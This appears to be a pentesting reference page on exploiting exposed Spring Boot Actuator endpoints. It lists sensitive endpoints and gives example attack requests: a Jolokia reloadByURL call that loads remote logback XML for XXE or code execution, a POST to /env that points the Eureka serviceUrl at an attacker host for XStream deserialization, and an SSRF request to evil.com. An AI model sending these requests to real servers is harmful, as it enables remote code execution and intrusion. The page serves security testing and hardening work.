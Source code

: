 # Spring Actuators

{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
* Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  * `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
* In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   * The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   * The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   * Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:
   * If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   * Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   *   Example exploit POST request:

       ```
       POST /env HTTP/1.1
       Host: 127.0.0.1:8090
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 65

       eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
       ```
3. **Other Useful Settings**:
   * Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

* A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1. **Env + H2 RCE**:
   * Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   * The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   *   Example exploit request:

       ```http
       GET ;@evil.com/url HTTP/1.1
       Host: target.com
       Connection: close
       ```
</details>
{% endhint %}

